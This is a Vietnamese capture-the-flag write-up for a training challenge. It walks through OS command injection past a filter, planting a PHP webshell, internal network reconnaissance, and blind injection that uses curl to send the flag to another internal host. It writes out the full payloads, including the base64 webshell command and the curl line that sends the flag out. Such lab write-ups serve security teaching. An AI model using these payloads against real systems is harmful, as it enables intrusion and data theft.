


# Parrot - Revenge (BKSEC Training 2026)
---
## Tổng quan
Trang web nhận input từ user qua POST request và trả lại cho user chính input đó.

## Khai thác

Tương tự như các bài parrot trước, bài này vẫn liên quan tới lỗ hổng **OS command injection**.

## Phase 1 - Lấy RCE
Tương tự bài parrot promax, server filter rất nhiều builtins, binary quen thuộc cũng như kí tự đặc biệt, NGOẠI TRỪ: `<`,`>`,`\`,`/`,`-`,`+`. Đồng thời giới hạn độ dài `word` tối đa được gửi là 12 chars.

Sau khi thử nghiệm thì server vẫn để lọt: 
- `%0a` để ngắt lệnh câu trước, cho phép inject command phía sau
- `dir` có tác dụng như `ls`
- `vdir` có tác dụng như `ls -l`

Sử dụng tính năng của linux: nếu kết thúc dòng bằng một kí tự `\` thì linux sẽ không coi đó là hết câu lệnh mà nối tiếp lệnh dòng đó với dòng tiếp theo.

Ví dụ:
```bash
c\
a\
t\
 \
/\
f\
l\
a\
g\
```
Đoạn lệnh trên tương đương với: `cat /flag`

Tận dụng tính năng này để chia nhỏ payload, bypass filter độ dài.

Đoán rằng server sử dụng `echo` để trả lại user input: 
```bash
echo . $input
```
Nhập input: `b\\>/tmp/a` sẽ thành `echo b\\ > /tmp/a`: ghi `b\` vào file a ở /tmp (Nếu chưa có thì tự động tạo).

Ở đây có hai dấu **bachslash** vì `\>` sẽ escape `>`, làm `>` trở thành string chứ không phải *redirect* nữa. `\\` sẽ khiến nó trở thành một kí tự bashlash hợp lệ thay vì một escape char.

Dùng `%0adir` và `%0avdir` thì thấy ở `/tmp` và `/var/www/html/images` có quyền được ghi.


Server cũng dùng PHP để code backend nên ý tưởng ở đây là viết một webshell vào `/var/www/html/images` để lấy RCE thông qua query.


Ta muốn viết `<?php echo passthru($_GET['cmd']); ?>  ` vào `w.php` ở images. Nhưng do bị filter, ta sẽ base64 nó để bypass, tuy nhiên vì nếu số lượng byte không chia hết cho 3, nó sẽ padding bằng dấu `=` ở cuối. Do đó cần căn chỉnh thêm bớt space để cho hét dấu bằng. 


Ta sẽ ghi lệnh sau vào `/tmp/i`
```bash
base64 -d <<< PD9waHAgZWNobyBwYXNzdGhydSgkX0dFVFsnY21kJ10pOyA/PiAg > /var/www/html/images/w
```
Dùng `<<<` thay cho `echo [something] | ` vì `|` bị filter.

Upload nó dần dần lên **/tmp/i** thông qua [script](assets/revenge.py) sử dụng kĩ thuật băm nhỏ câu lệnh như đã đề cập ở trên.

Sau đó sử dụng `%0abash /tmp/i` để execute đoạn code: decode đoạn base64 thành php code và viết vào w. (Dùng **bash** vì nó hỗ trợ **here string**, còn **sh** thì không)

Sau đó làm tương tự với lệnh này để đổi tên thành `w.php`
```bash
base64 -d <<< bXYgL3Zhci93d3cvaHRtbC9pbWFnZXMvdyAvdmFyL3d3dy9odG1sL2ltYWdlcy93LnBocCAg > /tmp/d
```


Execute `%0ash /tmp/d` để đổi tên.

`dir` ở images để confirm `w.php` đã được tạo.


Thành công upload webshell


## Phase 2: Post-exploitation

Sau khi có RCE với webshell, thử một lượt tất cả với lệnh 
```bash
find / -type f -name *flag* 2>/dev/null
```

Thì không có gì xảy ra trừ flag của parrot - promax.
Tiếp tục lần mò thì ở `/etc/hosts` có một định nghĩa IP lạ.



Check với lệnh `hostname` thì đó là ip máy server.

Nghi vấn `1.3.3.7` sẽ có điều đặc biệt và thực sự là có. Tuy nhiên vẫn cần check toàn diện để quét dùng [script](assets/parrot%20scan.py) thì cũng chỉ ra `1.3.3.7` =)))) (ở đây có 1.3.3.2 và 1.3.3.8 là IP của server parrot, 1.3.3.3 và 1.3.3.6 là ip của parrot - promax)

Thử curl về webhook thì không thấy request, có lẽ đây là local network hoặc có firewall chặn outbound requests. Nghĩa là chỉ dùng 3 webserver kia để giao tiếp với nhau.

## Phase 3: Trinh thám (Reconnaissance)
Có lẽ con vẹt "leet" thứ 3 này cũng nhận input như hai con vẹt kia. Thử gửi post request với body là "word" thì server chỉ trả về "Éc éc"


Thử curl tới và không gửi **word** hoặc gửi **word[]** dưới dạng array trong request body thì vẹt nhả lỗi:


Như vậy, server 1337 thực sự nhận **word** từ post request


Điều này khẳng định rằng server có decode word.

Nhưng sau khi thử với mọi thứ thì vẫn trả "Éc éc"

Ở đây:
1) Server troll, trả về "Éc éc" với mọi input và không execute code
2) Server có execute code (hoặc echo lại) nhưng luôn trả về "Éc éc"

Thử với `;sleep 5` thì server có bị delay

Khả năng đây là `Blind OS command injection`

## Phase 4: Leak dữ liệu (Data Exfiltration)
Thử với việc đọc flag và ghi ngay vào /var/www/html và /var/www/html/images của 1337 nhưng không được, có lẽ là không có quyền.

Check với `; which curl && sleep 5` thì server có delay. Từ đây ta có thể gửi request có chứa flag trong phần word của body tới 2 con vẹt còn lại. (Chọn con vẹt đầu tiên vì gần như k có filter)


Ở đây ta phải encode url 2 lần phần payload trong word gửi tới 1337 vì có chứa kí tự đặc biệt là `&&` cái mà trong url có tác dụng phân tách các query. Do đó, nếu không encode kĩ, payload sẽ k tới được 1337. Giải thích cụ thể từng lớp encode bị bóc:

`curl%201.3.3.7%20-X%20POST%20-d%20%22word=%253B%2520which%2520curl%2520%2526%2526%2520sleep%25205%22`

1) Một lần bị bóc khi đi qua webserver của server 1336. Sau đó 1336 sẽ gửi `curl 1.3.3.7 -X POST -d "word=%3B%20which%20curl%20%26%26%20sleep%205"` tới 1337. Nếu không encode thêm một lớp nữa thì ở đây sẽ là `curl 1.3.3.7 -X POST -d "word=; which curl && sleep 5"` có chứa `&&`, server có thể hiểu lầm là có 2 query với một **word=;which curl** và một query không hợp lệ.
2) Lần thứ hai bị bóc khi tới webserver của 1337, khi này nó nhận nguyên vẹn `%3B%20which%20curl%20%26%26%20sleep%205` nên k bị mất payload. Trong phần code như đã check với word array ở trên thì nó có urldecode một lần nữa thành `; which curl && sleep 5`

Như vậy là có `curl`, ta sẽ dùng nó để gửi post request từ 1337 tới con vẹt đầu tiên 1332 để nó ghi nội dung vào một readable & writable dir.

```bash
;curl 1.3.3.2 -X POST -d "word=;echo $(cat /flag*) > /tmp/bbt"
```
Tương tự như đã đề cập ở trên, vì có nhiều kí tự có để khiến webserver hiểu nhầm như `;` và `"`, ta sẽ urlencode nó 2 lần


Gửi payload trên trong word tới 1336.




> Flag: ***BKSEC{good_job_boy_heheeheeeeeeeeee_6f6e6c7966616e73}***


**Một chút nhận xét**: Bài này thay vì dùng RCE lấy được từ 1336 (parrot promax) để gửi request tới 1337 thì có thể dùng 1332 (parrot) để gửi curl post request tới 1337 bắt nó đọc flag rồi trả về và ghi vào 1332 luôn cũng được cho đỡ rối.